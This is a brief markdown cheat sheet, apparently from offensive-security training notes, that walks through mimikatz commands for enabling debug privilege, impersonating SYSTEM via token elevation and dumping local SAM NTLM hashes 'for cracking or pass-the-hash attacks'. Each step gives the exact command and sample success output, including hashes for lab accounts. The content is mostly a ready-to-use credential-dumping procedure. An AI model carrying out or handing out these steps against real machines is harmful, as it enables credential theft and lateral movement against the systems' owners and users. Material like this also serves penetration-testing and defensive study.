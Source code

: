 # mimikatz
Full breakdown available here: [Mimikatz](https://tools.thehacker.recipes/mimikatz) or [Mimikatz](https://adsecurity.org/?page_id=1821)

## Rudimentary setup for dumping NTLM hashes for cracking or pass-the-hash attacks.

To use *sekurlsa::logonpasswords* or *lsadump::sam* we need **SeDebugPrivilege** use this to enable it. So at the `mimikatz #` console use the following.

### Set Debug Privilege

This sets the debug privilege.

```console
privilege::debug
```
Success looks like:
```console
Privilege '20' OK
```
### Impersonate via token

This tells mimikatz to use a token that impersonates another entity and by default it's `SYSTEM` thus `NT AUTHORITY\SYSTEM`.
```console
token::elevate
```
Success looks like:
```console
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
### Dump hashes
If the previous two were successfull, now we can get NTLM hashes for users with this.

```console
lsadump::sam
```
Success looks like:
```console
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
